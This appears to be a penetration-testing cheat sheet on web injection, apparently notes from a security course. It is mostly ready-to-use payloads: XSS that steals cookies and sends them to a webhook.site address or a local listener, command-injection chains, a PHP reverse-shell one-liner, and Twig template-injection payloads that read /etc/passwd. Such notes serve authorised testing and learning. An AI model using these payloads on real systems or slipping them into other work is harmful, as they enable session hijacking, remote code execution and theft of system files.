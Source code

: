 

**Common injection** - img tag onerror attribute
```bash
<img src=x onerror="windows.location.replace('https://www.naver.com')" />
```

**Common injection** - steal user cookie using https://webhook.site
```bash
# GET
First fire up your python server
python3 -m http.server 4444
<script>let i=new Image; i.src="http://127.0.0.1:4444/?"+document.cookie;</script>

# POST
<script>
let cookie = {"cookie": document.cookie}; fetch("https://webhook.site/363b58b8-0971-460c-bd9d-74c99e9a3f61", {method: "POST", body: JSON.stringify(cookie), headers: {"Content-Type": "application/x-www-form-urlencoded"}})
</script>
```

### Command Injection
- eval - eval is evil
- Can you chain the command?
- Can we add something

****
```bash
# use # to ignore the rest
https://tcm-sec.com; whoami; #

# Get reverse shell
1. check what we can use
https://tcm-sec.com; which php; #
https://tcm-com.com; php -r '$sock=fsockopen("eth0.ip.add.ress",4444);exec("/bin/sh -i <&3 >&3 2>&3");'; #
```

**Blind Command Injection**
```bash
http://localhost?q=`sleep 10`
```

### Server-Side Template Injection(https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
**hints**
- When the input gets reflected on the browser(just like XXS)
- payload wordlists: seclists/SecLists-master/Fuzzing/template-engines-expression.txt
- We can get what type of template is being used based off of error message

**Twig example**
```bash
# Twig payload
{{7*7}}
{{['cat /etc/passwd']|filter('system')}}
{{['id']|filter('system')}}
```
